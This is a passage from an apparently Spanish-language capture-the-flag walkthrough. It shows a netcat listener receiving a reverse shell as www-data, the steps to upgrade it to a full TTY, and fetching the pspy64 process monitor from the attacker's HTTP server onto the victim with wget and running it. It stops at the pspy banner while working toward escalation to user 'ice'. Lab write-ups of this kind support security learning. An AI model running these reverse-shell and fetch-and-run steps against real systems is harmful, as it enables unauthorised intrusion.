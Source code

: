 ```
listening on [any] 7777 ...
connect to [192.168.5.50] from (UNKNOWN) [192.168.5.57] 54584
whoami
www-data
```

Veremos que ha funcionado, por lo que vamos a sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user ice

Despues de buscar un rato, si vemos los procesos que estan pasando por dentro con un script llamado `pspy64` esta en `GitHub` podremos ver los procesos de la maquina victima de `linux`, por lo que nos lo pasaremos de esta forma:

> host

```shell
python3 -m http.server 80
```

> victima

```shell
cd /tmp
wget http://<IP>/pspy64
```

Una vez que nos lo hayamos pasado lo ejecutaremos:

```shell
chmod +x pspy64
./pspy64
```

Info:

```
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     
```